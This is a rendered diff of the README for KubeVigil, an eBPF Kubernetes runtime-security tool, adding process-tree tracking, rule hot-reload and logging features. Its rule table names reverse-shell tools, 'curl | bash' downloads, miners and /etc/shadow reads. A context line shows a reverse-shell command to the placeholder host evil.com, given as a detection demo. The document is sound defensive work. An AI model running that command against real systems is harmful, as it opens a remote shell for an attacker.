

Before and after one commit to shuhuNB515/KubeVigil, a Markdown page: README.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: 更新README反映最新修复和新增功能

````diff
--- a/README.md
+++ b/README.md
@@ -89,15 +89,21 @@ KubeVigil 是一个基于 **eBPF** 的 Kubernetes 运行时安全工具。它直
 
 ### 监控能力
 
-- **进程执行监控 (execve)** — 捕获容器内所有新启动的进程
+- **进程执行监控 (execve)** — 捕获容器内所有新启动的进程，含父进程追踪（PPID）
 - **文件访问监控 (open)** — 监控对敏感文件的非授权读取
-- **网络连接监控 (connect)** — 捕获恶意的外连请求
+- **网络连接监控 (connect)** — 捕获恶意的外连请求（自动处理网络字节序）
+
+### 运维能力
+
+- **规则热重载** — 发送 `SIGHUP` 信号即可重载规则，无需重启 Agent
+- **日志级别控制** — 支持 debug/info/warn/error 四级日志
+- **优雅关闭** — 收到 SIGINT/SIGTERM 后优雅关闭 Ring Buffer 和探针
 
 ### 内置安全规则
 
 | 规则 | 类型 | 严重等级 | 响应动作 | 描述 |
 |---|---|---|---|---|
-| `reverse-shell-detected` | execve | 🔴 Critical | Kill Pod | 检测 `/bin/bash`、`nc`、`socat` 等反弹 Shell |
+| `reverse-shell-detected` | execve | 🔴 Critical | Kill Pod | 检测 `nc`、`socat` 等网络工具 + `/dev/tcp/` 可疑参数 |
 | `suspicious-download` | execve | 🟠 High | Label | 检测 `curl \| bash` 等可疑下载行为 |
 | `crypto-mining` | execve | 🔴 Critical | Kill Pod | 检测 `xmrig`、`minerd` 等挖矿程序 |
 | `sensitive-file-access` | open | 🟠 High | Label | 检测对 `/etc/shadow`、K8s Secret 的访问 |
@@ -150,6 +156,18 @@ kubectl logs -n kubevigil -l app.kubernetes.io/name=kubevigil -f
 
 ```bash
 helm uninstall kubevigil --namespace kubevigil
+```
+
+### 规则热重载
+
+运行中的 Agent 支持通过 SIGHUP 信号热重载规则，无需重启：
+
+```bash
+# 查找 Agent PID
+kubectl exec -n kubevigil <pod-name> -- kill -HUP 1
+
+# 或者直接修改 ConfigMap，Agent 会自动检测变化
+kubectl edit configmap -n kubevigil kubevigil
 ```
 
 ---
@@ -389,7 +407,7 @@ bash -c 'bash -i >& /dev/tcp/evil.com/4444 0>&1'
 KubeVigil 输出：
 
 ```
-[ALERT] [EXECVE] 2024-01-15 10:23:45 | Namespace: default, Pod: nginx-xyz | 异常执行了黑名单进程: /bin/bash | Rule: reverse-shell-detected | Severity: critical | Action: kill
+[ALERT] [EXECVE] 2024-01-15 10:23:45 | Namespace: default, Pod: nginx-xyz | 异常执行了黑名单进程: nc | Rule: reverse-shell-detected | Severity: critical | Action: kill
 [K8s] 已终止 Pod: default/nginx-xyz
 ```
 
````
Also changed, not shown: other parts of README.md (+1 -0 lines).
